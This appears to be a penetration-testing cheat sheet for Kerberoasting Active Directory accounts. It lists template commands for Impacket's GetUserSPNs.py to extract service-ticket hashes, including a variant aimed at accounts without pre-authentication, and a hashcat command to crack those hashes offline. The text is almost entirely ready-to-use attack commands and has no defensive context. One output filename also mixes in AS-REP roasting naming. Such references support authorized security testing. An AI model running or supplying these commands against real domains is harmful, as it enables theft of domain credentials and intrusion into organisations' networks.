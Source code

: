 # GetUserSPNs
#plateform/linux #target/remote #cat/ATTACK

## GetUserSPNs 
```
GetUserSPNs.py   -usersfile <users_file|users.txt> -outputfile hashes.asreproast <domain>/
```

## Kerberoast Pre-Auth attack
```
GetUserSPNs.py -dc-ip <DC_IP_ADDRESS> <domain>/ -usersfile <users_file> -no-preauth "<No_preauth_account>"
```

## Crack GetUserSPNs
```
hashcat -m 13100 --force -a 0 <hash_file> </path/to/wordlist>
```
